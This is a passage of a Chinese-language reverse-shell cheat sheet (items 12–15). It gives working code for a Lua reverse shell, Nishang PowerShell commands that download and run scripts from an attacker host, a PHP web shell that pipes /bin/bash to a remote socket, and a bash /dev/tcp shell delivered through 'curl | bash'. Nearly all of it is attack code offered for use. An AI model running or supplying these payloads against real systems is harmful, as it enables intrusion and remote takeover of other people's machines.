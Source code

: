### 12. Lua反弹

```text
local host ="x.x.x.x"
local port =1234
local socket =require("socket")
local tcp = socket.tcp()
tcp:connect(host, port)
localfunction read_command()
local command = tcp:receive("*l")
return command
end
localfunction execute_command(command)
local file =io.popen(command)
localoutput= file:read("*all")
    file:close()
    tcp:send(output.."\n")
end
whiletruedo
local command = read_command()
if command ==nilthenbreakend
    execute_command(command)
end
tcp:close()
```

### 13. Nishang框架（PowerShell）

```text
# 在攻击者机器上监听
IEX (New-Object Net.WebClient).DownloadString('http://x.x.x.x/Invoke-PowerShellTcp.ps1')
Invoke-PowerShellTcp -Reverse -IPAddress x.x.x.x -Port 1234
# 在目标机器上执行（假设可以下载并执行脚本）
IEX (New-Object Net.WebClient).DownloadString('http://x.x.x.x/Invoke-ReverseTcpShell.ps1')
Invoke-ReverseTcpShell -IPAddress x.x.x.x -Port 1234
```

### 14. 使用Web服务器

```text
<?php
$ip='x.x.x.x';// 攻击者IP
$port=1234;// 监听端口
$sock=fsockopen($ip,$port);
$proc=proc_open('/bin/bash -i',array(0=>$sock,1=>$sock,2=>$sock),$pipes);
?>
```

### 15. 利用系统工具（如curl或wget）

```text
# 在攻击者机器上创建一个简单的bash反弹shell脚本，并将其托管在Web服务器上
echo 'bash -i >& /dev/tcp/x.x.x.x/1234 0>&1' > reverse_shell.sh
python3 -m http.server 80  # 使用Python的HTTP服务器托管脚本
# 在目标机器上执行curl命令下载并执行反弹shell脚本
curl http://x.x.x.x/reverse_shell.sh | bash
```

